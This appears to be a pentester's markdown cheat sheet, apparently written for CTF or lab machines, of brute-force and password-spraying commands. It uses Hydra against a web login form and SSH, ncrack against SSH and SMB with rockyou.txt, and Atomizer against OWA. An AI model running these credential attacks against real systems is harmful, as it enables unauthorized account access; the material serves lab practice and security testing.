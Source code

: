 # BruteForce

# Uso de Hydra

## HTTP-POST

```
hydra -C credentials.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"
```

## SSH

```jsx
ncrack -v -U user.txt -P pass.txt ssh://10.10.10.10:<port> -T5
hydra -L users.txt -P pass.txt 192.168.0.114 ssh
```

## SMB

```jsx
ncrack -u qiu -P rockyou.txt -T 5 192.168.0.116 -p smb -v
```

## Atomizer OWA

```
python3 atomizer.py owa 10.10.10.210 'Summer2020' bruteusers
```